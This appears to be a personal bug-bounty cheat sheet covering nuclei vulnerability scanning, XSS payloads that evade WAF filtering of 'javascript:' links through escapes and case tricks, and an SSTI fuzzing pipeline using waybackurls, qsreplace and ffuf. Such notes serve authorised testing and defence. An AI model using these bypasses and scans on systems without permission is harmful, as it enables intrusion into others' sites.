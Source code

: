#### Nuclei

Can take numerous templates across various hosts to find known vulnerabilities.

Requires you specify a custom user agent unless **Cloudfare** drops all traffic.

```powershell
nuclei -l newsubs.httprobe -c 60 -t /root/tools/BotTemplates/ -o newsubs.httprobe.nuclei -H "User-Agent: User-Agent: Mozilla/5.0 Windows NT 10.0 Win64 AppleWebKit/537.36 Chrome/69.0.3497.100"
```

#### Artifactory Stuff

```powershell
#https://www.errno.fr/artifactory/Attacking_Artifactory

```

#### Cross-Site Scripting Bit n Bobs

```powershell
Got a lot to add here (naturally) but for the time being just noting down this bypass.

If exploiting <a href></a> xss and "javasript" is blocked by WAF or URL then try the below.

Add any number of \n \t or \r in the middle
java\nscript:

Add characters from \x00- \x20 at the beginning

\x01javascript:


Randoomize the case

jaVAscrIpT:

Can also use the below to get rid of the word JavaScript all together

\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)

\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)

```

<img align="center" src ="https://pbs.twimg.com/media/Eir5smxXcAcJ4QX?format=jpg&name=large">

#### Quick SSTI (RCE) Tip from Twitter

```powershell
#Full credit goes too - https://twitter.com/MrDamanSingh/status/1317042176337932291

Had to save this here as I thought it was pretty sick

root@nandangSec:~# waybackurls http://target.com | qsreplace "nandangSec{{9*9}}" > fuzz.txt
root@nandangSec:~# ffuf -u FUZZ -w fuzz.txt -replay-proxy http://127.0.0.1:8080/
(captured requests in burp)
search: nandangSec81 in burp

Could also apply to a few other things beside SSTI

WIP: Could also pass all QReplaced URLs to Nuclei and Grep for 81 and trigger alert?
```
